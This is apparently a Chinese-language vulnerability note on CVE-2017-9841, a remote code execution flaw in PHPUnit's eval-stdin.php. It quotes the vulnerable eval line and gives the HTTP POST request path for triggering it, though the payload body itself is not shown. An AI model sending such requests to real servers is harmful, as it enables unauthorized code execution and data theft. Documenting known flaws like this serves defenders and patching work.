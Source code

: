 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

```
PHPUnit < 5.6.3
```

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```plain
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](images/202202091319138.png)